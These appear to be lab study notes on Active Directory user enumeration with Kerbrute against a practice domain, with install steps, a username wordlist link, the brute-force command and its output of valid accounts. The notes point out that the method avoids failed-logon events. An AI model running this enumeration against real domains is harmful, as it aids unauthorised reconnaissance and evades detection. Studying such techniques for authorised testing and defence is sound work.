 # Enumeration w/ Kerbrute
Enumeration tool used to brute-force and enumerate valid AD users by abusing Kerberos pre-authentication.

## Abusing Pre-Authentication Overview
- by brute-forcing Kerberos pre-authentication, you do not trigger `account failed to log on` events
- when brute-forcing via Kerberos, you can brute-force only by sending a single UDP frame to KDC

## Kerbrute Installation
1) Download from https://github.com/ropnop/kerbrute/releases
2) Rename kerbrute_linux_amd64 to kerbrute
3) Make kerbrute executable

<pre>chmod +x kerbrute</pre>

## Enumerating Users with Kerbrute
Allows you to know which user accounts are on the tagret domain and which accounts could be used to access the network.

1) Cd into directory with kerbrute
2) Download the following wordlist: https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
3) Brute-force user accounts from a Domain Controller
<pre>./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/10/23 - Ronnie Flathers @ropnop

2023/09/10 18:14:57 >  Using KDC(s):
2023/09/10 18:14:57 >   CONTROLLER.local:88

2023/09/10 18:14:57 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2023/09/10 18:14:57 >  Done! Tested 100 usernames (10 valid) in 0.337 seconds
</pre>

